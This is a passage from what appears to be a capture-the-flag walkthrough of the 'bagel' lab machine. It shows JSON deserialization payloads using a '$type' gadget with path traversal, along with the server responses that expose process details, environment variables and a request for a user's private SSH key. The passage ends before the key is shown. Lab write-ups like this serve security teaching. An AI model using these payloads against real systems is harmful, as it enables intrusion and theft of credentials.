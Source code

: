 ```
```

It works! It create a `RemoveOrder` object with a `ReadFile` in it that has `/etc/passwd`!

#### Read SSH Key

Just like with the previous file read, I can get the command line and environment here:

```

> {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../proc/self/cmdline"}}
< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "4:23:21",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "dotnet\u0000/opt/bagel/bin/Debug/net6.0/bagel.dll\u0000",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}
> {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../proc/self/environ"}}
< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "4:23:08",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "LANG=en_US.UTF-8\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin\u0000HOME=/home/phil\u0000LOGNAME=phil\u0000USER=phil\u0000SHELL=/bin/bash\u0000INVOCATION_ID=f22816b43f6e4edbac23633fd856c9d7\u0000JOURNAL_STREAM=8:25239\u0000SYSTEMD_EXEC_PID=890\u0000",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}

```

The process is running out of `/home/phil`.

Reading `/home/phil/.ssh/id_rsa` returns a private SSH key:

```

> {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../home/phil/.ssh/id_rsa"}}
< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "4:24:32",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
```